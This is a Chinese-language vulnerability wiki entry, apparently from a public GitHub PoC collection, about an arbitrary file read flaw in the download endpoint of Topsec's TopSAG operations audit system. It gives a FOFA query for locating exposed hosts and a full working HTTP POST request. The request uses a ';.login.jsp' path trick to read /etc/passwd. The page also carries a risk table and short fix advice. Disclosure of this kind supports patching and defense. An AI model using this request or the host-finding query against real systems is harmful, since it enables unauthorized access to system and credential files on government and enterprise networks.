

# 天融信运维安全审计系统download任意文件读取漏洞

# 漏洞描述

天融信运维安全审计系统TopSAG是基于自主知识产权NGTOS安全操作系统平台和多年网络安全防护经验积累研发而成，系统以4A管理理念为基础、安全代理为核心，在运维管理领域持续创新，为客户提供事前预防、事中监控、事后审计的全方位运维安全解决方案，适用于政府、金融、能源、电信、交通、教育等行业。天融信运维安全审计系统download存在任意文件读取漏洞

# 影响版本

天融信运维安全审计系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：header="iam" && server="Apache-Coyote/"

POC/EXP：

POST /iam/download;.login.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Content-Length: 67

filename=1.txt&filepath=/etc/passwd

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
